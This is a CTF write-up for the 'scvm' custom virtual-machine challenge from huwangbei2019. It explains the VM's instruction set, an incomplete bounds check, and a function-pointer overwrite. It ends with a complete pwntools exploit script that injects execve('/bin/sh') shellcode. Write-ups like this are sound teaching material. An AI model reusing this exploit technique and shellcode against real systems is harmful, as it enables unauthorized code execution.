









# scvm

> huwangbei2019 offline
> An easy VM challenge. Compared with the system-level virtual machine topic, this kind of topic can be understood as customizing a CPU instruction set, and realizing the emulator of the instruction set, not the virtualization at the hardware system level.

## Reverse
### VM Struct
It is really easy to know the struct of VM by analyzing the function as follows.



```
00000000 vm_t            struc ; (sizeof=0x20, mappedto_8)
00000000 reg_cnt         dd ?
00000004 fun_cnt         dd ?
00000008 regs            dq ?
00000010 funs            dq ?                    ; base 2
00000018 mem             dq ?
00000020 vm_t            ends
00000020
```

### Instruction Type
Instructions are four byte long and byte-aligned.
```
[fun_id] [val1] [val2] [val3]
```
```fun_id``` is used to know which function should be called.





For example, instruction **add** use 3 vals and do the operation ```regs[val1] = regs[val2] + regs[val3]```.



### Functions
10 functions are supported, but function **lea** is not useful.
```
exit: exit(0)
add: regs[val1] = regs[val2] + regs[val3]
sub: regs[val1] = regs[val2] - regs[val3]
mul: regs[val1] = regs[val2] * regs[val3]
div: regs[val1] = regs[val2] / regs[val3]
mod: regs[val1] = regs[val2] % regs[val3]
mov: regs[val1] = val2
print: print(reg[val3])
lea: regs[val1] = (uint32_t)(vm->mem + val2)
mov2mem: *(byte *)(vm->mem + val2) = regs[val1]
```



## Vulnerability
### Incomplete Checking
We can input **0x1000** bytes as **vm->mem**. However, the check will only check 0x800 bytes, so we can bypass this check if we input malicious instructions after 0x800 bytes.



### self-modifying code
It is obvious that instruction ```mov2mem``` can modify ```*(byte *)(vm->mem + val2)``` to the value of ```regs[val1]```. But it does not check the value of val2.
So, we can modify the value of a bytes in memory (0 ~ 0xff) to the value we want, static check makes no sense.



## Exploit
It is enough to use **Incomplete Checking** for exploiting. Firstly, we input enough bytes (more than **0x800**) to bypass static checking.

```
payload = gen_sub(0x0, 0x0, 0x0) * (0x800 / 4)
```

### Leak
We cannot leak address of ```vm->mem``` by original **print** like operations, because we can only input once. So, we need to leak ```vm->mem``` to a reg of this vm and use the instructions integrated into this vm (```sub``` or ```add``` is great).



We the vm is inited, heap chunk for **regs** and **funcs** are allocated and then the struct **vm** is allocated, too. We can use **sub** to get the value of ```regs[0~0xff]```. So, leak is done.
We can also use this trick to modify the value of ```funs[i]``` to the one we like.
However, remember that the operand size is **32 bits**, not 64 bits. The arch of this executable elf is **amd64**. So, we need to modify the value of a function ptr twice (low 32 bits and high 32 bits).



### Shellcode
It is easy that the memory allocated for vm is marked as **rwx**, so we just need to set ```rip``` to the address of our vm mem.


### EXP
```
from pwn import *

local=1
pc='./scvm'
aslr=True
context.log_level=True
context.arch = "amd64"
context.word_size = 64
context.os = "linux"
context.endian = "little"

if local==1:
    #p = process(pc,aslr=aslr,env={'LD_PRELOAD': './libc.so.6'})
    p = process(pc,aslr=aslr)
    gdb.attach(p)
else:
    remote_addr=['172.16.9.45', 17730]
    p=remote(remote_addr[0],remote_addr[1])

ru = lambda x : p.recvuntil(x)
sn = lambda x : p.send(x)
rl = lambda   : p.recvline()
sl = lambda x : p.sendline(x)
rv = lambda x : p.recv(x)
sa = lambda a,b : p.sendafter(a,b)
sla = lambda a,b : p.sendlineafter(a,b)

def lg(s,addr):
    print('\033[1;31;40m%20s-->0x%x\033[0m'%(s,addr))

def gen_print(i, j=0, k=0):
    s = ""
    s += chr(7)
    s += chr(i)
    s += chr(j)
    s += chr(k)
    return s

def gen_mov(i, j, k = 0):
    s = ""
    s += chr(6)
    s += chr(i)
    s += chr(j)
    s += chr(k)
    return s

def gen_sub(i, j, k):
    s = ""
    s += chr(2)
    s += chr(i)
    s += chr(j)
    s += chr(k)
    return s

def gen_add(i, j, k):
    s = ""
    s += chr(1)
    s += chr(i)
    s += chr(j)
    s += chr(k)
    return s


def raddr(a=6):
    if(a==6):
        return u64(rv(a).ljust(8,'\x00'))
    else:
        return u64(rl().strip('\n').ljust(8,'\x00'))

if __name__ == '__main__':
    payload = gen_sub(0x0, 0x0, 0x0) * (0x800 / 4)

    payload+= gen_mov(0,0x80)
    payload+= gen_sub(2, 0x2e + 4, 2)
    payload+= gen_sub(3, 0x2f + 4, 3)

    for i in range(0, 0x12):
        payload+= gen_add(2, 0, 2)

    payload+= gen_sub(0x22, 0x22, 0x22)
    payload+= gen_sub(0x23, 0x23, 0x23)

    payload+= gen_sub(0x22, 0x2, 0x22)
    payload+= gen_sub(0x23, 0x3, 0x23)

    payload+= gen_print(0x10)

    payload = payload.ljust(0x900, "\x00")

    buf =  ""
    buf += "\x6a\x3b\x58\x99\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73"
    buf += "\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x52\x57\x48\x89"
    buf += "\xe6\xb0\x3b\x0f\x05"

    payload+= buf

    #payload = payload.ljust(0xa0, "\x00")
    #payload+= p32( 0x11DA - 0x10A0)

    sn(payload)
    p.interactive()

```